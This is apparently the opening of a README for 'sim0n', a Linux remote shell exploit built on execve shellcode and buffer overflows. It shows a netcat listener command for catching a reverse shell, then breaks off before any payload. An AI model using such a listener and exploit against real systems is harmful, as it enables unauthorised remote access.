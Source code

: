 # sim0n

*Buffer overflow, AAAAAAAAA, Segmentation fault*

Sim0n is a Linux remote shell exploit that exploits memory vulnerabilities via shell code generated with execve system call.

## Usage

**1** Start the listener on your computer

```
nc -lvp 4444
```

**2.** Modify this string of payload


